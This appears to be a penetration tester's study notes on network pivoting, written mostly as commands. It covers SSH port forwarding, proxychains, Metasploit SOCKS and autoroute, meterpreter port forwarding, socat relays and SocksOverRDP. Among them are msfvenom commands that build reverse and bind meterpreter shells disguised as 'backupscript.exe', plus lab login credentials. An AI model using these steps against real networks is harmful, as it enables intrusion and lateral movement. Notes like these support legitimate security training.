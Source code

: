 
## #SSH local port forwarding
![[Pivotting.png]]
### Scan the pivot target 
```shell
nmap -sT -p22,3306 10.129.202.64
```
### Execute the local Port Forward 
```shell
ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```
-L Forward all traffic from the first port to the second
### Confirm Port Forward 
```shell
netstat -antp | grep 1234
```
```shell
nmap -v -sV -p1234 localhost
```
### Forward multiple hosts  
```shell
ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

## SSH Tunnelling over #SOCKS proxy 
To connect to the target machine from the local machine you can start a SOCKS listener on the local host. 
*This is called SSH tunneling over SOCKS proxy*

Allows traffic to be route to the second target via the first machine. 
![[Pivotting over SSH.png]]

#### Dynamic Port forwarding with SSH 

##### Use #Proxychains to send traffic across #proxy 
```shell
ssh -D 9050 ubuntu@10.129.202.64
```
The D argument requests the SSH server to enable dynamic port forwarding. 

```shell
tail -4 /etc/proxychains.conf
```
Add `socks4 127.0.0.1 9050` to the bottom. 
##### #nmap with proxy chains 
```shell
 proxychains nmap -v -sn 172.16.5.1-200
```
##### Proxy chains with metasploit 
```shell
proxychains msfconsole
```
##### Proxychains with xfreerdp
```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
## Remote/Reverse Port Forwarding 
Allows the target to talk back to you
Example payload:
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
On the local machine 
```shell
ssh -R <InternalIPofPivotHost>:<multi handler port>:<listenerip>:<lport> <target username>@<ipAddressofTarget> -vN
```


## Meterpreter Tunnelling & Port Forwarding
### Ping Sweeping to search for more hosts 
Run these twice to allow ARP cache to build up
```shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
```cmd
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

```msf
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
### MSF SOCKS Proxy 
```shell
use auxiliary/server/socks_proxy
```

```shell
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
```
Check the proxy is running 
```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====
Id  Name    Payload  Payload opts
0   Auxiliary: server/socks_proxy
```
may need to add to /etc/proxychains.conf
```shell
socks4 	127.0.0.1 9050
```
#### Creating Routes 
```shell
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```
 or 
 ```shell
run autoroute -s 172.16.5.0/23
```
```shell
run autoroute -p
```
#### Test Connection 
```shell
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```
### Port Forwarding 
create a local TCP relay 
```meterpreter
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

```shell
xfreerdp /v:localhost:3300 /u:victor /p:pass@123 /scale-desktop:200 /scale:180
```
### Reverse Port Forwarding 
```shell
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
Forward requests on port 1234 to listener on port 8081
##### Start a multi handler


## [Socat](https://linux.die.net/man/1/socat) Redirection with a Reverse Shell
Bidirectional relay tool that can create a pipe between 2 network channels. 
### Start #Socat Listener 
Do this on the pivot host 
```shell
socat TCP4-LISTEN:8080,fork TCP4:<local ip>
```

Listen on the local host on port 8080 and forward traffic over port 80

### Create the payload 
```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<pivot host ip> -f exe -o backupscript.exe LPORT=8080
```
Start a multi handler on port 80 
## Socat Redirection with a Bind Shell
![[Pivotting MSF.png]]
```shell
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
Create the payload 

### Socat Bind Listener 
```shell
 socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
Needs to be the inverse way to ensure traffic is forwarded to the target this time 

Start a multi handler 

Establish a meterpreter session 


## RDP and SOCKS Tunneling with SocksOverRDP
SSH not available?
[SOCKS over RDP](https://github.com/nccgroup/SocksOverRDP)
Uses Dynamic Virtual Channels
### Downloads 
https://github.com/nccgroup/SocksOverRDP/releases
https://www.proxifier.com/download/#win-tab

#### Load SocksOverRDP on pivot host 
```cmd
regsvr32.exe SocksOverRDP-Plugin.dll
```
Connect over RDP using mstsc.exe
Should receive prompt that SocksOverRDP is enabled.

Transfer SocksOverRDP-Server.exe and star with admin privileges. 

Check SOCKS Listener is started 
```cmd
netstat -antb | findstr 1080
```

### Transfer Proxifier over to the pivot host
Profiles > add profile
Configure to forward all packets to 127.0.0.1:1080

